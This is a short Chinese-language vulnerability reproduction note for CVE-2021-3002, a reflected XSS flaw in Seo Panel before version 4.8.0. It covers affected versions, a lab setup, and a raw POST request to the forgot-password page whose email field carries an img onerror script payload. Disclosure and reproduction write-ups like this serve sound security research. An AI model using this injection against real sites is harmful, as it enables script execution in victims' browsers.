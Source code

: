 # Seo-Panel-4.8.0-反射型XSS漏洞--CVE-2021-3002

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞 

## 漏洞影响

> [!NOTE]
>
> Seo-Panel  Version < 4.8.0 

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可

![](Seo-Panel-4.8.0-反射型XSS漏洞--CVE-2021-3002.assets/1627363108539007.jpg)

## 漏洞复现

漏洞出现在找回密码页面 **http://xxx.xxx.xxx.xxx/login.php?sec=forgot**

![](Seo-Panel-4.8.0-反射型XSS漏洞--CVE-2021-3002.assets/1627363108956993.jpg)

成功弹窗 ,造成 反射型XSS 漏洞

## 漏洞POC

请求包如下

```js
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0qk20ehq89b29ct8krpv76vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```

